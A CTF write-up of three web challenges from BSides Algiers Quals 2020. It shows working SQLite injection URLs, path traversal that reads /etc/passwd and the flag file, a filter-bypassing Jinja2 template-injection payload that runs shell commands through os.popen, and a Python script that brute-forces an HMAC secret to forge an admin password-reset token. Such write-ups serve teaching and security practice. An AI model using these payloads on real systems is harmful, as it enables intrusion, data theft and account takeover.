# BSides Algiers Quals CTF 2020


After 36 hours of hard work, BSides Algiers finally ended yesterday, we (th3jackers)
ended up first locally and second worldwide. As i am more of a web guy, these write-ups
will only be focused on the Web category.

#### Challenges

[Trashbin](#trashbin)
[MemeHub](#memehub)
[Spiders](#spiders)


<a name="trashbin"></a>
## Trashbin

Upon opening the challenge link, we are shown an api description:



We can create a paste, delete it, read the entire paste, or only accessing a particular field of the paste (text or title)

Even though this challenge was easy, we took quite a while to solve it, because we went on a totally different path.

Let's start by creating a paste:

```bash
th3jackers$ curl -X POST http://chall.bsidesalgiers.com:8001/paste/new -H "Content-Type: application/json" -d '{"title":"just a title","text":"just a content"}'

{"success":true,"url":"/paste/veisbzgx"}
```

Let's read it 

```bash
th3jackers$ curl http://chall.bsidesalgiers.com:8001/paste/veisbzgx

{"success":true,"text":"just a content","title":"just a title"}
```
After few tries, it seems there is nothing interesting here, let's try reading by field


```bash
th3jackers$ curl http://chall.bsidesalgiers.com:8001/paste/veisbzgx/title

just a title

th3jackers$ curl http://chall.bsidesalgiers.com:8001/paste/veisbzgx/text

just a text
```
Humm ... it's a bit different here, there is no object returned.
We tried injecting some stuff like 1+1 and indeed it returned 2 instead of an error, same thing if we put a string (inside quotes).

we spent some time here trying to figure out how it works, how is it evaluating inputs.

First we thought it was python-related (since this is a Flask app),maybe he is fetching the paste from db, putting it in a dictionary and then trying to access the dictionary by key, but this didn't make much sense.

Then, my team mate tried putting `*` as a field and this is what happened:

```bash
th3jackers$ curl http://chall.bsidesalgiers.com:8001/paste/veisbzgx/*

veisbzgx
```

Finally this was the trigger, my team mate guessed it must be a classic sql injection :p and indeed it was Sqlite, we tried locally and sqlite returned exactly the same output of all the different inputs we tried.

The rest was easy, first get the table name

```bash
th3jackers$ curl "http://chall.bsidesalgiers.com:8001/paste/veisbzgx/name%20from%20sqlite_master%20WHERE%20type='table'%20union%20select%20'x'"

pastes
```

then get the id of the paste containing the flag

P.S: `union select 'x'` act as a comment because regular comments somehow doesn't work.

```bash
th3jackers$ curl "http://chall.bsidesalgiers.com:8001/paste/veisbzgx/id%20from%20pastes%20where%20text%20like%20%22%shellmates%7B%%22%20%20union%20select%20'x'"

sp05m8vu
```

```bash
th3jackers$ curl "http://chall.bsidesalgiers.com:8001/paste/sp05m8vu/text"

shellmates{2021_y3t_sQl_1nj3ct10ns_4r3_st1ll_4_pr0bl3m}
```

Flag:  `shellmates{2021_y3t_sQl_1nj3ct10ns_4r3_st1ll_4_pr0bl3m}`

<a name="memehub"></a>
## MemeHub



For this specific challenge, i will make two different solutions,
the intended way and the UNintended way XD

### UNintended way

The first thing i did was checking the url of the images

```
http://chall.bsidesalgiers.com:8003/uploads?path=static/schrodinger-funeral.jpg
```

Humm i smell some LFI here, let's try reading /etc/passwd

```
http://chall.bsidesalgiers.com:8003/uploads?path=static/../../../etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
ctf:x:1000:1000::/home/ctf:/bin/bash
```

Great! then i tried guessing some files in /home/ctf/ but 
couldn't find any.
So i tried guessing the full path of the web folder
i found that the parent of `static` is `uploads` because this path still loads the image correctly.

```
http://chall.bsidesalgiers.com:8003/uploads?path=static/../../uploads/static/schrodinger-funeral.jpg
```

So now i need only one other folder, which is in the root `/` folder i tried all common names like `/var`,`/srv`

but then i asked myself, it's kinda weird, why a web app would be stored in the `/` ? Then i instantly remembered it's a container,
and usually in all containers they store files in the `/app` folder

```
http://chall.bsidesalgiers.com:8003/uploads?path=static/../../../app/uploads/static/schrodinger-funeral.jpg
```

Yessss ! it works.

then i just had to do

```
http://chall.bsidesalgiers.com:8003/uploads?path=static/../../../app/flag.txt

shellmates{tR0ll1nG_@_mem3R_w1tH_4_w3ll_cr4fT3d_1nj3ct10n}
```

Of course i also read the source of  `app.py` x)


### The intended way

Let's move on to the actual solution for this challenge.

It was an SSTI in the title field of the upload form





After few tries it seems like the characters `.` `[` and `]` are all filtered.

No worries, we can replace `.` with `|attr()` 
and `[]` with `|attr('__getitem__')(INDEX_or_KEY)`

Solution is quite easy, no need to go into details: we just have to look for the `os` module from `__globals__` and execute a shell command with `popen`

```python
{{config|attr('__class__')|attr('__init__')|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('ls')|attr('read')()}}

app.py db_handler.py flag.txt patch.txt static templates uploads
```

```python
{{config|attr('__class__')|attr('__init__')|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('cat flag*')|attr('read')()}}

shellmates{tR0ll1nG_@_mem3R_w1tH_4_w3ll_cr4fT3d_1nj3ct10n}
```


Flag: `shellmates{tR0ll1nG_@_mem3R_w1tH_4_w3ll_cr4fT3d_1nj3ct10n}`

<a name="spiders"></a>
## Spider Network



This was the last web challenge we solved, it was quite interesting, we took some time with it because we also found an unintended stored XSS in the search section x)

The funny thing is there was this comment from the admin:



it actually confirmed us that it was an XSS challenge, we kept sending emails to the admin hoping for a nice baked cookie, but all we got was requests made by other participants :( 

After that, i talked with the author and it turned out it wasn't an XSS challenge, it was something else. So i turned my attention to the other post of the admin



Clearly we must use the Forgot password feature, let's check it





I received an email with a token to reset my password.

I tried doing it again and again.
And guess what? it's the same token every time



So, it must be some kind of a hash of my email, with a constant salt. 

We already know the email of the admin (spidersweb.manager@gmail.com), so we just need to find how it is hashed to get the token and
reset his password.

In the home page, there is  a link to the [repo](https://github.com/spiders-web/spidersweb) of the challenge. it contains a file `backup.zip` let's extract it

```bash
th3jackers$ unzip backup.zip

Archive:  backup.zip
  inflating: README.md               
  creating: static/
  creating: static/css/
  inflating: static/css/foundation.min.css  
  inflating: static/css/normalize.css  
  inflating: static/css/main.css     
  inflating: static/favicon.ico      
  creating: static/avatars/
  inflating: static/avatars/porkey.jpg  
  inflating: static/avatars/admin.png  
  inflating: static/avatars/default-avatar.png  
  inflating: static/avatars/deadpool.jpg  
  inflating: static/avatars/peterB.png  
  inflating: static/avatars/peni.jpg  
  inflating: static/avatars/miles.jpg  
  inflating: static/avatars/kingpin.jpg  
  extracting: static/avatars/gwen.png  
  creating: views/
  inflating: views/index.erb         
  inflating: views/page_visitor.erb  
  inflating: views/page_user.erb     
  extracting: views/not_found.erb     
  creating: .git/
  creating: .git/branches/
  creating: .git/hooks/
   ......
```

There is a `.git` folder, how cool is that :3 
And it contains git objects, we can use them to read
old deleted files, using the command `git cat-file OBJECT`

I used this inline command to go through all objects and read them 
(Thanks to [this writeup](https://www.mrt-prodz.com/blog/view/2014/09/no-con-name-ctf-quals-2014---miscall-100pts-writeup) for the tip)

```bash
for d in *; do for f in $d/*; do git cat-file -p $d$(basename "$f"); done; done
```

Reading through all the files, i finally found what i was looking for:

```ruby
token = OpenSSL::HMAC.hexdigest("SHA256", ENV["SECRET_KEY"], email)
```

I also found this note:

```
- change SECRET_KEY to something stronger
```

So all what is left to do, it to bruteforce the key by hashing it with HMAC_SHA256 using my email and my token that i already know.

I used `rockyou` as wordlist, here is my python script:

```python
import hashlib,hmac
mytoken="MY_TOKEN"
with open("/usr/share/wordlists/rockyou.txt","rb") as f:
  liste = f.readlines()
n=len(liste)
for i in range(len(liste)):
  line=liste[i].strip()
  if hmac.new(line,"MY_EMAIL",digestmod=hashlib.sha256).hexdigest() == mytoken:
    print("FOUND: %s"%line)
    break
  print("Trying %d/%d"%(i,n))

```

Running it gives us the KEY in few seconds:

```bash
.....
.....
Trying 91398/14344391
Trying 91399/14344391
Trying 91400/14344391
Trying 91401/14344391
Trying 91402/14344391
Trying 91403/14344391
Trying 91404/14344391
FOUND: spiderpig1
````

Let's calculate admin's token now, shall we ?

```python
>>> print(hmac.new("spiderpig1","spidersweb.manager@gmail.com",digestmod=hashlib.sha256).hexdigest())

c1971b6fc5eedfa40d5d96a017b9a439c05f2fe8cdc8d48481e00e0c4580db7d
```

Reset the admin password: 



Et voila



Flag: `shellmates{w3lc0me_2_th3_5pid3r_v3rs3}`


I would like to thank Shellmates Club for their efforts in the organization and making these great challenges. and also for the fair-play CTF.